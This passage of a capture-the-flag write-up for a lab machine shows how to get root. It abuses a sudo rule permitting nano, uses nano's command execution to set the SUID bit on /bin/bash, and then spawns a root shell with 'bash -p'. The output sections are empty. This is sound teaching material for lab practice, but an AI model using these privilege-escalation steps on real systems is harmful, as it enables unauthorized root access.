




5.2 Getting root (Second flag)
1. Run the following command on the victim's machine:
tarantino@movie:~$ sudo -u root /usr/bin/nano /etc/passwd
You'll see the content of “/etc/passwd” in “nano”.
2. As you can run command into “nano” run the following command.
Ctrl+t
chmod u+s /bin/bash
Enter
Ctrl+x
3. You are outside “nano” then run the following command.
tarantino@movie:~$ /bin/bash -p
-p Turned on whenever the real and effective user ids do not match.
Disables processing of the $ENV file and importing of shell
functions. Turning this option off causes the effective uid and
gid to be set to the real uid and gid.
Output:

4. Run the following commands.
bash-5.1# id
Output:

You can see that the user “root” is an “euid” user.
EUID(Effective User ID)
○ Generally, UID and EUID is the same
○ EUID is changed by executable file that is configured SetUID authority
○ EUID temporarily stores another account's UID
○ The authority of a process is determined according to the UID stored in the EUID
bash-5.1# cd /root
bash-5.1# ls -l
Output:

5. Get the flag.
bash-5.1# cat root.txtOutput:
